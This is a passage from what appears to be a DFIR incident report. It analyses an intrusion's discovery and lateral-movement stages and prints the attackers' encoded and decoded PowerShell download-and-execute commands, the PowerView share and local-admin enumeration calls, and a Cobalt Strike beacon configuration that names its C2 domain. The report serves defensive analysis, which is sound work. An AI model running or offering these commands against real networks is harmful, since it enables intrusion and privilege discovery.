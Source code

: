Decoded command:



```
IEX (New-Object Net.Webclient).DownloadString('http://127.0.0.1:10966/'); Invoke-ShareFinder -CheckShareAccess

```

The threat actors also executed PowerView `Invoke-FindLocalAdminAccess` module on one of the compromised servers:



```
powershell -nop -exec bypass -EncodedCommand SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAGMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AbABvAGMAYQBsAGgAbwBzAHQAOgAzADcAOQAyADMALwAnACkAOwAgAEkAbgB2AG8AawBlAC0ARgBpAG4AZABMAG8AYwBhAGwAQQBkAG0AaQBuAEEAYwBjAGUAcwBzACAALQB0AGgAcgBlAGEAZABzACAANQAwAA==

```

Decoded command:



```
IEX (New-Object Net.Webclient).DownloadString('http://localhost:37923/'); Invoke-FindLocalAdminAccess -threads 50
```

#### We also saw exhaustive port scanners of certain servers before additional discovery.


#### File and Directory Discovery


The following discovery commands were run on all hosts including the Domain Controllers:  

[![enter image description here](https://thedfirreport.com/wp-content/uploads/2021/09/0322be45fbfbeeec17f79f53f5c14948fae662928f238751834bd66994c5ea99 "enter image title here")](https://thedfirreport.com/wp-content/uploads/2021/09/0322be45fbfbeeec17f79f53f5c14948fae662928f238751834bd66994c5ea99)


### Lateral Movement


The first Lateral Movement to the Domain Controller was performed using remote services creation (Executing `spoolsv.exe` via remote services):  

[![enter image description here](https://thedfirreport.com/wp-content/uploads/2021/09/a2f307dcd2d49c5b87aace2f692c02d8ef9fa7db2f973dd5dc01eb794585be86 "enter image title here")](https://thedfirreport.com/wp-content/uploads/2021/09/a2f307dcd2d49c5b87aace2f692c02d8ef9fa7db2f973dd5dc01eb794585be86)


The `spoolsv.exe` binary is a Cobalt Strike artifact used for Lateral Movement and C2 which decodes to the configuration below:



```
{
  "BeaconType": [
 "HTTPS"
 ],
  "Port": 443,
  "SleepTime": 4000,
  "MaxGetSize": 1403644,
  "Jitter": 37,
  "C2Server": "kaslose.com,/jquery-3.3.1.min.js",
  "HttpPostUri": "/jquery-3.3.2.min.js",
  "Malleable\_C2\_Instructions": [
 "Remove 1522 bytes from the end",
 "Remove 84 bytes from the beginning",
```